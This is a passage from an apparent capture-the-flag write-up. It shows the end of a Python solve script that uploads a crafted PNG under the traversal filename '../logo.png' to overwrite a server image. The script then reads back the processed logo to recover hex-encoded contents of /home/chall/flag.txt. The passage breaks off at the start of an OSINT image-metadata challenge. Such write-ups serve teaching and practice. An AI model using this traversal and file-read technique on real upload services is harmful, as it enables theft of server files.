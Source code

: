 ```python
    img.save(MALICIOUS_PNG_PATH, "PNG", pnginfo=info)


def reset_server_cache(upload_url):
    with open("reset_file", "w") as f:
        f.write("reset")
    files = {"file": ("reset", open("reset_file", "rb"), "application/octet-stream")}
    requests.post(upload_url, files=files, timeout=10)
    os.remove("reset_file")
    time.sleep(1)


def main():
    base_url = f"http://{sys.argv[1]}:{sys.argv[2]}" # python solve.py host port
    upload_url = f"{base_url}/upload"
    logo_sm_url = f"{base_url}/logo-sm.png"

    reset_server_cache(upload_url)
    create_png("/home/chall/flag.txt")

    files = {"file": ("../logo.png", open(MALICIOUS_PNG_PATH, "rb"), "image/png")}
    requests.post(upload_url, files=files, timeout=15).raise_for_status()
    requests.get(logo_sm_url, timeout=10)
    time.sleep(2)

    response = requests.get(logo_sm_url, timeout=15)
    response.raise_for_status()
    with open(OUTPUT_PNG_PATH, "wb") as f:
        f.write(response.content)

    flag_dec = ''
    for flag in re.findall(r'[a-f0-9]+'.encode(), response.content):
        if len(flag) > 4:
            flag_dec += flag.decode()
    print(bytes.fromhex(flag_dec).decode().strip())

if __name__ == "__main__":
    main()
```

## Insider 4 🔎

### Introduction

When we open the `.insider-4` [folder](https://github.com/scriptCTF/scriptCTF26/tree/main/OSINT/.insider-4/attachments), we see `fireworks.jpg`, `room.jpg`, and a `.secret` file note mentioning that the photographer adds comments to their pictures. That points us straight to hidden
metadata.

### Analysis
